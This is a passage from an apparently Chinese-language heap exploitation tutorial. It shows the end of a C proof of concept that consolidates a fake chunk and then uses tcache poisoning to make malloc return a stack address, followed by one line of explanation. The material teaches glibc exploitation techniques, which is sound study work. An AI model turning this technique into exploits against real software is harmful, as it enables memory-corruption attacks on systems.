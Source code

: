 ```plain
        free(x[i]);
    }

    printf("Now we free 'c' and this will consolidate with our fake chunk since 'c' prev_inuse is not set\n");
    free(c);
    printf("Our fake chunk size is now %#lx (c.size + fake_prev_size)\n", a[1]);

    printf("\nNow we can call malloc() and it will begin in our fake chunk\n");
    intptr_t *d = malloc(0x158);
    printf("Next malloc(0x158) is at %p\n", d);

    // tcache poisoning
    printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
           "We have to create and free one more chunk for padding before fd pointer hijacking.\n");
    uint8_t *pad = malloc(0x28);
    free(pad);

    printf("\nNow we free chunk 'b' to launch a tcache poisoning attack\n");
    free(b);
    printf("Now the tcache list has [ %p -> %p ].\n", b, pad);

    printf("We overwrite b's fwd pointer using chunk 'd'\n");
    d[0x30 / 8] = (long) stack_var;

    // take target out
    printf("Now we can cash out the target chunk.\n");
    malloc(0x28);
    intptr_t *e = malloc(0x28);
    printf("\nThe new chunk is at %p\n", e);

    // sanity check
    assert(e == stack_var);
    printf("Got control on target/stack!\n\n");
}
```

首先定义了一个栈地址，然后申请了一个0x38大小的堆块 `chunk a`

[![](assets/1702521085-514495706288b25b5be70bcb97265b42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230818-1f4146e6-9380-1.png)

